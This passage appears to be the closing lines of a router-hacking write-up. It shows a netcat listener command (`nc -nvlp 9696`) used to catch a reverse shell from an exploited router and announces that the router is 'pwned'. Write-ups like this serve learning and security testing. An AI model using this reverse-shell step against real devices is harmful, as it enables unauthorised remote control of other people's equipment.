If we run a listener with `nc -nvlp 9696` and run our script, we get a reverse shell!


This router has been successfully pwned!